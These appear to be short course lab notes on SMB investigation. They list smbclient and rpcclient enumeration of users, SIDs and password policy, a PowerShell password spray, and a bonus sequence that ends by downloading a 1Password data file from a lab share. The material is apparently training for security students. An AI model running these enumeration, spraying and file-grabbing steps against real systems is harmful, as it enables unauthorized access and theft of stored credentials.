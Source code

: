 # SMB Investigation Notes

smbclient

```
smbclient -L 10.10.0.1 -U sec504
```

rpcclient

```
rpcclient 10.10.0.1 -U sec504
 > enumdomusers
 > help
 > srvinfo
 > enumalsgroups domain
 > enumalsgroups builtin
SID ENUMERATION
 > lookupnames sec504
 > lookupnames administrator
 > lookupnames administrators
ENUMERATE USERS WITH RID, 500 is administrator 1000 may be a user
 > queryuser 500
 > queryuser 1000
```

disconnect smb sessions in powershell

```
Get-SmbSession
Get-SmbSession | Close-SmbSession -Force
Get-SmbSession
```

finding weak passwords, Password Spray Attack using PowerShell

```
Import-Module .\LocalPasswordSpray.ps1
Invoke-LocalPasswordSpray -Password Winter2023
```

bonus

```
nmap -sn 172.30.1-254
nmap -A 172.30.0.22
smbclient -U erigby -L 172.30.0.22 -m SMB3
smbclient -U erigby -L 172.30.0.22 -m SMB2
smbclient -U erigby -L 172.30.0.22 -m NT1
rpcclient 172.30.0.22 -U erigby
 > enumdomusers
 > getdompwinfo
 > getusrdompwinfo 1000
smbclient -U erigby //172.30.0.22/data -m SMB2
 > ls
 > cd 1Password/
 > cd 1Password.1pif/
 > get data.1pif
```
